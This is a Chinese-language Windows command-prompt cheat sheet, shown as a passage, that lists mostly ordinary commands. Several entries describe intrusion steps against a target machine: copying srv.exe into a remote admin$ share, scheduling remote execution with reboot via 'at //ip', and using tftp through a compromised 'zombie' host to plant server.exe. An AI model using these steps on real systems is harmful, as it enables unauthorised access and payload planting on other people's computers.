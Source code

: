 ```cmd
at id号 开启已注册的某个计划任务 
at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止 
at id号 /delete 停止某个已注册的计划任务 
at 查看所有的计划任务 
at //ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机 
finger username @host 查看最近有哪些用户登陆 
telnet ip 端口 远和登陆服务器,默认端口为23 
open ip 连接到IP（属telnet登陆后的命令） 
telnet 在本机上直接键入telnet 将进入本机的telnet 
copy 路径/文件名1　路径/文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件 
copy c:/srv.exe //ip/admin$ 复制本地c:/srv.exe到对方的admin下 
cppy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指 ASCLL格式文件 
copy //ip/admin$/svv.exe c:/ 或:copy//ip/admin$/*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C： 
xcopy 要复制的文件或目录树　目标地址/目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件 
tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:/server.exe 登陆后，将"IP"的server.exe下载到目标主机c:/server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送 
tftp -i 对方IP　put c:/server.exe 登陆后，上传本地c:/server.exe至主机 
ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时) 
route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface 
arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息 
start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令 
mem 查看cpu使用情况 
attrib 文件名(目录名) 查看某文件（目录）的属性 
attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用＋则是添加为某属性 
dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间 
date /t 、 time /t 使用此参数即"DATE/T"、"TIME/T"将只显示当前日期和时间，而不必输入新日期和时间 
set 指定环境变量名称=要指派给变量的字符 设置环境变量 
set 显示当前所有的环境变量 
set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量 
pause 暂停批处理程序，并显示出：请按任意键继续.... 
if 在批处理程序中执行条件处理（更多说明见if命令及变量） 
goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如："：start"标签） 
call 路径/批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?） 
for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量） 
echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置 
echo 信息 在屏幕上显示出信息 
echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中 
findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello 
find 文件名 查找某文件 
title 标题名字 更改CMD窗口标题名字 
color 颜色值 设置cmd控制台前景和背景颜色；0＝黑、1＝蓝、2＝绿、3＝浅绿、4＝红、5＝紫、6＝黄、7=白、8=灰、9=淡蓝、A＝淡绿、B=淡浅绿、C=淡 红、D=淡紫、E=淡黄、F=亮白 
prompt 名称 更改cmd.exe的显示的命令提示符(把C:/、D:/统一改为：EntSky/ ) 


#3 三： 


ver 在DOS窗口下显示版本信息 
winver 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名） 
format 盘符 /FS:类型 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS 
md　目录名 创建目录 
replace 源文件　要替换文件的目录 替换文件 
ren 原文件名　新文件名 重命名文件名 
tree 以树形结构显示出目录，用参数-f 将列出第个文件夹中文件名称 
type 文件名 显示文本文件的内容 
more 文件名 逐屏显示输出文件 
doskey 要锁定的命令＝字符 
doskey 要解锁命令= 为DOS提供的锁定命令(编辑命令行，重新调用win2k命令，并创建宏)。如：锁定dir命令：doskey dir=entsky (不能用doskey dir=dir)；解锁：doskey dir= 
taskmgr 调出任务管理器 
chkdsk /F D: 检查磁盘D并显示状态报告；加参数/f并修复磁盘上的错误 
```